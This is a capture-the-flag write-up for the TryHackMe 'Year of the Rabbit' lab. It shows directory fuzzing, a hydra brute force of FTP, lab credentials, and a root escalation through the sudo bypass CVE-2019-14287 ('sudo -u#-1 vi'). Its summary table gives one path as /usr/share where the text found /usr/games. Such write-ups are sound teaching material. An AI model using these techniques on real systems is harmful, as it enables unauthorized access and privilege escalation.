







# Year of the Rabbit

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

**Difficulty:** Easy

**Category:** Linux

**Description:** Time to enter the warren…

Additional Info: 



---

<details> 
<summary> <h2> TLDR (Spoilers) </h2></summary>
FTP credentials were hidden inside a PNG file found through a hidden directory, uncovered by intercepting HTTP redirects in Burp Suite. The FTP server contained `Eli's_Creds.txt` encoded in `Brainf*ck`, which decoded to SSH credentials. A hidden message at `/usr/games/s3cr3t` revealed `Gwendoline`'s password. Through enumeration, `sudo` 1.8.10p3 was found to be vulnerable to `CVE-2019-14287`, and `/usr/bin/vi` from `sudo -l` was used to gain access to root and compromising the system.

</details>

---

## Initial Reconnaissance

This is the only TryHackMe room that has asked me to keep my volume high. Who am I to say no. 

Nmap scan:

```
nmap -A -v <IP> -oN nmapresult.txt
```



There are 3 ports open: `21, 22, 80`. Nmap did not tell whether `FTP` at port 21 had anonymous login enabled, so I checked it out myself.

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ ftp 10.48.132.3
Connected to 10.48.132.3.
220 (vsFTPd 3.0.2)
Name (10.48.132.3:Mikayn): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```

I shifted my focus to `HTTP` at port 80 in hopes of getting a username and password for FTP later on. 

The website shows the default Apache configuration page. I checked the source code, but there were no sneaky comments. So I fuzzed for directories. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ dirsearch -u http://10.48.132.3/ -w /usr/share/dirb/wordlists/common.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Target: http://10.48.132.3/

[16:20:47] Starting:
[16:20:51] 301 -  311B  - /assets  ->  http://10.48.132.3/assets/
[16:21:05] 403 -  276B  - /server-status

Task Completed
```

I checked out `/assets` and it had 2 files. 



No wonder the room author asked me to keep my volume high. I am NOT going there lol. There was only the CSSfile. I chose to go there first since I dont  want to get rickrolled. 

Surprisingly there was something there. I was not expecting it since putting information in CSS is quite unrealistic. Me not wanted to get rickrolled worked out in my favor. 


Going to  `/sup3r_s3cr3t_fl4g.php` tells me to turn off my javascript. 



This room already strayed off from the typical rooms, but I dont hate it. I just looked at the source code instead of turning off javascript. 




The room gives me no choice. I cant believe I am getting rickrolled by a TryHackMe room as I am typing this. 

At `00:56`, the music gets cut off with a dialogue saying “I’ll put you out of your misery. *Burp*. You’re looking in the wrong place. ” For anyone new reading this writeup, you are very welcome. 

If watching the video was the “wrong place”, then I assume the next step would be to inspect the video’s metadata. There could be comments or steganography techniques involved. 

I checked using `exiftool`, `binwalk`, `ffprobe` and `mp4dump`, but to no avail. 

`binwalk` extracted a zip file, but I think it was corrupted.

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ binwalk -Me RickRolled.mp4

Scan Time:     2026-05-24 16:56:21
Target File:   /home/Mikayn/thm/yearoftherabbit/RickRolled.mp4
MD5 Checksum:  7518cb78a98701d95d11e8912608b765
Signatures:    436

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
228904536     0xDA4CE58       gzip compressed data, has header CRC, last modified: 2098-03-25 13:36:58 (bogus date)

WARNING: Extractor.execute failed to run external extractor 'yaffshiv --auto --brute-force -f '%e' -d 'yaffs-root'': [Errno 2] No such file or directory: 'yaffshiv', 'yaffshiv --auto --brute-force -f '%e' -d 'yaffs-root'' might not be installed correctly
402279450     0x17FA4C1A      YAFFS filesystem root entry, big endian, type symlink, v1 root directory

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented
```

I also checked using `ffprobe` and `mp4dump`, but it led me nowhere. I decided view the request in burpsuite in case I missed something in the headers. 

I intercepted the request to `/sup3r_s3cr3t_fl4g.php` . I did not notice before, but when I went to that directory, it redirected me to `/sup3r_s3cr3t_fl4g`. 


I cannot believe I missed the so obvious *burp* from the rick roll. 

Between those 2 was another directory `/WExYY2Cv-qU`



I downloaded the `Hot_Babe.png` in my machine. I highly suspected there was steganography involved to hide some data in this picture. 

`exiftool` and `binwalk` showed me nothing, then I tried `strings`. 


Finally I got a lead. With this list, it is easy to brute force the password using a tool like `hydra`. Command: `hydra -l <USERNAME> -P <WORDLIST> ftp://<IP>`

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ hydra -l ftpuser -P passwd.txt ftp://10.48.132.3
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-24 17:53:42
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.48.132.3:21/
[21][ftp] host: 10.48.132.3   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-24 17:53:57
```

Now I could log in to FTP. 

## Log in to FTP

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ ftp 10.48.132.3
Connected to 10.48.132.3.
220 (vsFTPd 3.0.2)
Name (10.48.132.3:Mikayn): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||27610|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||20266|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |**************************************************************|   758      309.72 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (14.00 KiB/s)
```

After logging in, all I found was one file `Eli's_Creds.txt`. I downloaded it on my machine. Hopefully this is SSH’s credentials.

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ cat Eli\'s_Creds.txt
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Honestly what did I even expect of this room lol. This is called `brainf*ck` language. I used [dcode.fr](https://www.dcode.fr/brainfuck-language) to decode this. 


I tried this credential on SSH, and I logged in as `eli`. 

## Shell as Eli

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/yearoftherabbit]
└─$ ssh eli@10.48.132.3
The authenticity of host '10.48.132.3 (10.48.132.3)' can't be established.
ED25519 key fingerprint is: SHA256:va5tHoOroEmHPZGWQySirwjIb9lGquhnIA1Q0AY/Wrw
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.48.132.3' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
eli@10.48.132.3's password:

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

eli@year-of-the-rabbit:~$
```

Immediately, there is another user mentioned `Gwendoline` and their `s3cr3t` hiding place. I noted this and looked around. 

Gwendoline’s home directory was world accessible, but the `user.txt` there was not :(

I thought of horizontal escalation to Gwendoline first before root. The best place to check was probably the `s3cr3t` hiding place mentioned above. 

```
eli@year-of-the-rabbit:/home/gwendoline$ find / -name s3cr3t 2>/dev/null
/usr/games/s3cr3t
```

Using the `find` command, I found their hiding place at `/usr/games/s3cr3t`. 

```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

Thanks root! 

```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password:
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ id
uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
```

## Shell as gwendoline

The first thing I did was claim the user flag. `sudo -l` never disappoints haha. 

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

I can run `/usr/bin/vi`  on `user.txt` as any user except root. I went straight to [GTFOBins.org](https://gtfobins.org/) to check whats possible with `vi`. 



Though the real question is, will it be a root’s shell? Probably not because of the `!root`. But there is a very famous bug with `sudo` on versions <1.8.28  that allows a user to run sudo as root despite the restriction above. 

```
gwendoline@year-of-the-rabbit:~$ sudo --version
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

### Exploit explanation

The exploit associated is to use sudo as  `sudo -u#-1 <command>` (CVE-2019-14287)

`-u` specifies the user. Passing in user with an id of `-1` causes an integer overflow in sudo’s UID handling which makes the negative value wrap around to the highest positive integer. This bypasses the check which blocks root (as seen from `!root` in `sudo -l` ). But the kernel ultimately resolves this UID to root. 

And since the challenge allows me to run `vi` with sudo and there is a way to spawn a shell as sudo, this exploit should grant me root’s shell. 

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Then I swiftly went to root’s home directory and claimed the flag. 

```
# cd /root
# ls -al
total 20
drwx------  2 root root 4096 Jan 23  2020 .
drwxr-xr-x 23 root root 4096 Jan 23  2020 ..
lrwxrwxrwx  1 root root    9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r-----  1 root root   46 Jan 23  2020 root.txt
# cat root.txt
THM{REDACTED}
```

---

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Ports `21, 22, 80` open.  |
| 2 | Fuzz directories at port `80`. | Discovered `/assets` |
| 3 | Inspect `styles.css` | Found directory `/sup3r_s3cr3t_fl4g.php` |
| 4 | Intercept request with `burpsuite` | Found directory `/WExYY2Cv-qU` with an image |
| 5 | `strings` on image | Found FTP user, and list of passwords. |
| 6 | Bruteforce FTP with `hydra`  | Log in with credentials `ftpuser:5iez1wGXKfPKQ` |
| 7 | Download note from FTP | SSH creds + Shell as `eli` |
| 8 | `gwendoline`'s password in `/usr/share/s3cr3t`  | Shell as gwendoline + User flag |
| 9 | `sudo -l`  | Run `/usr/bin/vi` but !root |
| 10 | Check sudo version and `vi` exploits on GTFObins | sudo vulnerable to `CVE-2019-14287` + Shell as root |
